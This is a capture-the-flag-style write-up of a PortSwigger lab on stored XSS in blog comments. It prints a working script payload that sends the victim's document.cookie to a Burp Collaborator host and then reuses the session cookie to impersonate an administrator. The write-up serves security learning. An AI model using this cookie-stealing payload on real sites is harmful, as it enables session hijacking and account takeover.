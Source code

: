 ```yaml
---
layout: post
title:  "Exploiting cross-site scripting to steal cookies"
date:   2024-09-29 09:39:54 +0530
---
```


## Initial Information

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

  

## Things to Remember 

> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 
> Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.

  

## Solution

Kind of looks like a blog forum where we can comment on those blog posts by viewing the blog 

  

![]({{ site.baseurl }}/assets/images/image%2010.png)  

  

Sprayed the following payload `nithissh"><h2>XSS` on every field and to check whether any other fields are vulnerable other than, comment functionality it self.. But in our case, the blog comment field is vulnerable actually which we already know 

  

![]({{ site.baseurl }}/assets/images/image%2011.png)  

Now, we have confirmed that the vulnerability exists over there and in order to acheive our endgoal which is stealing the cookie value we need to curate a payload that it will steal the cookie and send it to our external server 

  

For that, we can use burp collaborator.. also there are other alternatives like interactsh or webhooks but portswigger enabled for all labs which needs OOB interaction we have to indefinitely use the burp collaborator

  

Coming to the payload part, Here is the sample payload where it utilizes the `<script>` tag 

  

```html
<script>
document.write('<img src="[URL]?c='+document.cookie+'" />');
</script>
```

  

Further moving ahead, replace the actual `[URL]`  with our burp collaborator ( `xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com`  ) in an HTTP protocol and complete payload which we gonna utilize looks like as follows

  

```html
<script>
document.write('<img src="http://xyzy5c2elakzj8tsd599t5golfr6fw3l.oastify.com/?c='+document.cookie+'" />');
</script>
```

  

Now paste the payload into blog comment and look through the burp collab for any interaction related to cookie 

  

Looking and polling through, there is a interaction came in HTTP.. tied along with a cookie 

  

![]({{ site.baseurl }}/assets/images/image%2012.png)  

  

Now take the `session` value and replace with our session value eithier through burp repeater or through local storage we can do that and referesh the page, you will be logged in as a admin and the lab is solved 

  

![]({{ site.baseurl }}/assets/images/image%2013.png)  

  

## Do u Know why u got the admin token over there ?

Because every now and then, administrator over looks through the blog comments eithier some kind of bot is automating it or any other manual interaction which happened accidentally